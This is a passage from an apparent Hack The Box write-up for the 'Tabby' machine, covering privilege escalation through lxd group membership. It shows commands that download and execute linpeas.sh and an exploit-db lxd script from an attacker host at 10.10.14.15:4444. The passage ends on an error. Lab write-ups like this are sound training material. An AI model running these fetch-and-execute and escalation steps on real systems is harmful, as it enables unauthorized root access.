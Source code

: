 ## Privilege escalation
The first things we can try are:
```bash
ash@tabby:~$ sudo -l
sudo: unable to open /run/sudo/ts/ash: Read-only file system
[sudo] password for ash: 
Sorry, user ash may not run sudo on tabby.
ash@tabby:~$ cat /etc/sudoers
cat: /etc/sudoers: Permission denied
```
Both vectors are not vulnerable.

### linpeas.sh
Upload `linpeas.sh` and execute it:
```bash
ash@tabby:/tmp$ wget http://10.10.14.15:4444/linpeas.sh
ash@tabby:/tmp$ chmod +x linpeas.sh 
ash@tabby:/tmp$ ./linpeas.sh
```
From the output, we discover that `pkexec` has the suid set, which is vulnerable, but this is not an intended path. Also, the user `ash` is part of the `lxd` group:
```bash
ash@tabby:/tmp$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```
Which makes this machine vulnerable to:
```bash
❯ searchsploit lxd
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
Ubuntu 18.04 - 'lxd' Privilege Escalation        | linux/local/46978.sh
------------------------------------------------- ---------------------------------
```
We retrieve the exploit and execute it:
```bash
# Attacker machine
❯ searchsploit -m linux/local/46978.sh
  Exploit: Ubuntu 18.04 - 'lxd' Privilege Escalation
      URL: https://www.exploit-db.com/exploits/46978
     Path: /usr/share/exploitdb/exploits/linux/local/46978.sh
File Type: Bourne-Again shell script, Unicode text, UTF-8 text executable

Copied to: /home/r3van/HTB/Machines/In_Progress/Tabby/46978.sh


❯ mv 46978.sh Exploits/
❯ chmod +x Exploits/46978.sh
❯ cd Exploits
❯ wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
❯ sudo bash build-alpine
passwd: 
❯ python3 -m http.server 4444
# Victim machine
ash@tabby:/tmp$ wget http://10.10.14.15:4444/46978.sh
ash@tabby:/tmp$ wget http://10.10.14.15:4444/alpine-v3.16-x86_64-20220611_1917.tar.gz
ash@tabby:/tmp$ chmod +x 46978.sh 
ash@tabby:/tmp$ ./46978.sh -f /tmp/alpine-v3.16-x86_64-20220611_1917.tar.gz 
Error: open /tmp/alpine-v3.16-x86_64-20220611_1917.tar.gz: no such file or directory
[*] Listing images...

+-------+-------------+--------+-------------+--------------+------+------+-------------+
| ALIAS | FINGERPRINT | PUBLIC | DESCRIPTION | ARCHITECTURE | TYPE | SIZE | UPLOAD DATE |
+-------+-------------+--------+-------------+--------------+------+------+-------------+
```